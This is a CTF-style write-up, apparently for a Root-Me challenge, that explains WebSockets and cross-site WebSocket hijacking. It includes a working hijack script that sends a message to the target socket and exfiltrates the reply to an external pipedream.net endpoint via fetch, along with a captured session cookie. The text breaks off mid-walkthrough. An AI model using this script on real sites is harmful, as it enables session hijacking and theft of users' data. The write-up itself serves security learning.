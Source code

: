 ```yaml
---
title: XSS Vulnerabilities
Summary: Unprotected Websocket challenge
date: "2025-03-23"
#https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cross-site-websocket-hijacking-cswsh.md#simple-attack
---
```


![Websocket_1](websockets.svg)

# Introduction

Today I'm going to talk about web sockets, you may have found `wss://` or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can :)

## What are web Sockets?
WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications. 

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response. 

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data. 

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:
var ws = new WebSocket("wss://target-website.com/room");

## Check connection status
If you head to the !["mozilla mdn docs"](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/readyState) there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

This is the information that we need!

## Check for javascript files.
We can crawl through the website and see some javascript page:
[...]
```js
 var connection = new WebSocket('ws://'+window.location.hostname+'/ws');  
    connection.onopen = function () {};  
    connection.onerror = function (error) {
      alert("An error occured, you will reload the page for you to access a new room !")
      location.reload()
    };
    connection.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val().replace('<','').replace('>','')+"\n")
      $("#chatbox").append("\nBot: "+message["data"].replace('<','').replace('>','')+"\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
[...]
## Begin the connection.

```javascript
var ws = new WebSocket('ws://'+window.location.hostname+'/ws');
ws.readyState // this should return 1 ^^

// CSRF
ws.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val() + "\n")
      $("#chatbox").append("\nBot: "+message["data"] + "\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
<script>
websocket = new WebSocket('ws://ctf02.root-me.org/ws')
websocket.readyState;
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://eor5pi7epfnejaq.m.pipedream.net/?'+event.data, {mode: 'no-cors'})
}
</script>

# Let's get this party started

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.
Let's open burp and initiate a WS connection, what do we see?

```html
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctf10.blabla
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: _ga_SRYSKX09J7=GS1.1.1659040468.3.1.1659042535.0; _ga=GA1.1.239451001.1658089567; connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket
```

Response:
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, 3 cookies are set and there's nothing regarding CSRF tokens, looks nice.... but what about if we delete the cookies and reconnect again, will we be able to interact with the server?

sending ws message:
> Unable to verify your identity, please log in before chatting with me.

We got something!!! Now that we don't have any cookie, the connection is being made but requests are being rejected by WSS: We need some cookies!
Cookies can be gathered from a victim's pov

ws://ctf04.root-me.org/ws